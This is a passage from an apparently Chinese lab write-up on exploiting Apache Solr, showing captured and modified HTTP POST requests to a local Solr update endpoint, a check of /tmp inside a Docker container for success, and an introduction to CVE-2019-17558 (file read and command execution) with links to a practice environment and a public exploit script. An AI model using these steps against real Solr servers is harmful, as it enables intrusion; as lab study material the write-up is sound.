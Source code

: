 ![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135138670-1073635610.png)

```plain
然后在访问特定地址http://192.168.233.128:8983/solr/demo/update
POST提交：[{"id":"test"}]
抓取数据包：
POST /solr/demo/update HTTP/1.1
Host: 192.168.233.128:8983
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

[{"id":"test"}]

修改数据包：
POST /solr/demo/update HTTP/1.1
Host: 192.168.233.128:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135139387-1147187456.png)

```plain
进入docker环境查看是否成功：
进入：sudo docker-compose exec solr bash
查看：ls /tmp
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135139179-2129130764.png)

```plain
2、任意文件读取AND命令执行（CVE-2019-17558）
影响版本：Apache Solr 5.0.0版本至8.3.1

环境：https://vulfocus.cn/#/dashboard?image_id=0c32e104-8afe-433d-8b10-904d18704bef

利用脚本：https://github.com/jas502n/solr_rce

这个脚本采用了python2开发，用到虚拟机的python2环境。
执行命令：
```
